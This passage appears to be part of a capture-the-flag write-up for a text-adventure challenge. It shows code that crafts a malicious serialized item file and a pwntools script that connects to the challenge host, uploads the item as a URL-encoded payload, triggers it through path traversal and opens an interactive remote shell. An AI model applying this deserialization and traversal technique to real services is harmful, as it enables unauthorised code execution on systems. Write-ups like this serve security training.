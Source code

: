 ```python

def setup_shell():
    item = make_item('shell', shell_on_get)
    path = 'shell.item'
    write_object(path, item)
    
setup_shell()
```

This created a new file `shell.item` on my system. Then I ran the following exploit:

```python
from pwn import *
import pickletools

f = open("shell.item","rb")
new_item = f.read()
payload = ''.join(['%%%02x' % c for c in new_item]) # Convert payload to a URL-encoded string

p = remote("165.22.48.155","26181")
p.sendlineafter("] ",b"move a-shallow-deadend")
p.sendlineafter("] ",b"get pocket-watch")
p.sendlineafter("] ",b"options text_scroll false")
p.sendlineafter("] ",b"back")
p.sendlineafter("] ",b"move deeper-into-the-burrow")
p.sendlineafter("] ",b"move a-curious-hall")
p.sendlineafter("] ",b"get pink-bottle")
p.sendlineafter("] ",b"move a-pink-door")
p.sendlineafter("] ",b"move maze-entrance")
p.sendlineafter("] ",b"move knotted-boughs")
p.sendlineafter("] ",b"move dazzling-pines")
p.sendlineafter("] ",b"move a-pause-in-the-trees")
p.sendlineafter("] ",b"move confusing-knot")
p.sendlineafter("] ",b"move green-clearing")
p.sendlineafter("] ",b"move a-fancy-pavillion")
p.sendlineafter("] ",b"get fluffy-cake")
p.sendlineafter("] ",b"move along-the-rolling-waves")
p.sendlineafter("] ",b"move a-sandy-shore")
p.sendlineafter("] ",b"move a-mystical-cove")
p.sendlineafter("] ",b"get looking-glass")
p.sendlineafter("] ",b"teleport sea-of-tears/along-the-rolling-waves/a-sandy-shore/into-the-woods/further-into-the-woods/nearing-a-clearing/clearing-of-flowers/under-a-giant-mushroom")
p.sendlineafter("] ",b"get golden-hookah")
p.sendlineafter("] ","blowsmoke shell.item " + payload)
p.sendlineafter("] ",b"teleport ../../logs")
p.sendlineafter("] ",b"get vast-emptiness-shell")

p.interactive()
```

```
(initial output omitted)
[*] Switching to interactive mode
```